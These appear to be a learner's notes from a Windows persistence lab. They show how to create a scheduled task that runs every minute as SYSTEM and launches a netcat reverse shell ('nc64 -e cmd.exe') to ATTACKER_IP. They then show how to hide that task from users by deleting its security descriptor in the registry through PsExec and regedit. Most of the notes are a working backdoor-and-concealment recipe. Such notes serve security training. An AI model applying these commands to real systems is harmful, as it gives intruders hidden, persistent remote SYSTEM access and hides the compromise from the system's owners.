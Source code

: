 ## Creating a new task
- schedule tasks is using the built-in **Windows task scheduler**
- use `schtasks` to interact with the task scheduler
- Complete command reference: [schtasks command reference](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) 

```powershell
# Create a new scheduled task
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM

# Check the created task
schtasks /query /tn thm-taskbackdoor
```
## Hiding the task

-  To hide scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**.
- The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
- There is a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.
- To delete the SD we will use `psexec`  to open Regedit with SYSTEM privileges and delete the _SD_ entry for our task
```powershell
c:\tools\pstools\PsExec64.exe -s -i regedit
```

